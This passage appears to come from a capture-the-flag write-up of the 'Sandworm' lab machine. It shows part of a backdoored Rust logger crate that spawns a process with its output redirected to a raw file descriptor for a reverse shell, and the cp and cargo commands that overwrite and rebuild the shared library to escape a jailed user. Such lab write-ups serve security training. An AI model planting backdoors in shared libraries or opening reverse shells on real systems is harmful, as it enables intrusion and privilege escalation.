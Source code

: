 ```rust
        .stdout(unsafe { Stdio::from_raw_fd(fd) })
        .stderr(unsafe { Stdio::from_raw_fd(fd) })
        .spawn()
        .unwrap()
        .wait()
        .unwrap();
    let mut file = match OpenOptions::new().append(true).create(true).open("/opt/tipnet/access.log") {
        Ok(file) => file,
        Err(e) => {
            println!("Error opening log file: {}", e);
            return;
        }
    };

    if let Err(e) = file.write_all(log_message.as_bytes()) {
        println!("Error writing to log file: {}", e);
    }
}
```

I placed the code in the tmp directory to then then use the cp command to overwrite the original lib.rs file.

```
cp lib.rs /opt/crates/logger/src/lib.rs
```
Next i compiled the crate so whenever atlas uses this service again it will run my backdoored version instead of the original one.

```
cargo build --manifest-path /opt/crates/logger/Cargo.toml
```

![Logger compiled](/assets/img/Sandworm/Sandworm_12.png)

A moment later our reverse shell as atlas pops back open. By running the whoami command it showed that this user was not in its jail anymore.

![Unjailed Atlas](/assets/img/Sandworm/Sandworm_13.png)
